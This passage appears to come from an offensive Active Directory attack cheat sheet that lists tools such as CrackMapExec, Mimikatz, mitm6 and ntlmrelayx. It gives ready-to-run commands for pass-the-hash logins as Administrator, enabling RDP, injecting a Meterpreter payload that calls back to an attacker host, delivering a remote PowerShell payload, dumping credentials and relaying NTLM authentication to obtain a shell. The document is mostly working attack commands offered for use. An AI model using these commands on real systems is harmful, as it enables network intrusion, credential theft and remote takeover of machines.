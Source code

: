 ## Tools

* [Impacket](https://github.com/CoreSecurity/impacket) or the [Windows version](https://github.com/maaaaz/impacket-examples-windows)
* [Responder](https://github.com/lgandx/Responder)
* [InveighZero](https://github.com/Kevin-Robertson/InveighZero)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)
* [Ranger](https://github.com/funkandwagnalls/ranger)
* [AdExplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer)
* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

  ```powershell
  # use the latest release, CME is now a binary packaged will all its dependencies
  root@payload$ wget https://github.com/byt3bl33d3r/CrackMapExec/releases/download/v5.0.1dev/cme-ubuntu-latest.zip

  # execute cme (smb, winrm, mssql, ...)
  root@payload$ cme smb -L
  root@payload$ cme smb -M name_module -o VAR=DATA
  root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f --local-auth
  root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f --shares
  root@payload$ cme smb 192.168.1.100 -u Administrator -H ':5858d47a41e40b40f294b3100bea611f' -d 'DOMAIN' -M invoke_sessiongopher
  root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
  root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f -M metinject -o LHOST=192.168.1.63 LPORT=4443
  root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" -M web_delivery -o URL="https://IP:PORT/posh-payload"
  root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" --exec-method smbexec -X 'whoami'
  root@payload$ cme smb 10.10.14.0/24 -u user -p 'Password' --local-auth -M mimikatz
  root@payload$ cme mimikatz --server http --server-port 80
  ```

* [Mitm6](https://github.com/fox-it/mitm6.git)

  ```bash
  git clone https://github.com/fox-it/mitm6.git && cd mitm6
  pip install .
  mitm6 -d lab.local
  ntlmrelayx.py -wh 192.168.218.129 -t smb://192.168.218.128/ -i
  # -wh: Server hosting WPAD file (Attacker’s IP)
  # -t: Target (You cannot relay credentials to the same device that you’re spoofing)
  # -i: open an interactive shell
  ntlmrelayx.py -t ldaps://lab.local -wh attacker-wpad --delegate-access
  ```

* [ADRecon](https://github.com/sense-of-security/ADRecon)

  ```powershell
  .\ADRecon.ps1 -DomainController MYAD.net -Credential MYAD\myuser
  ```
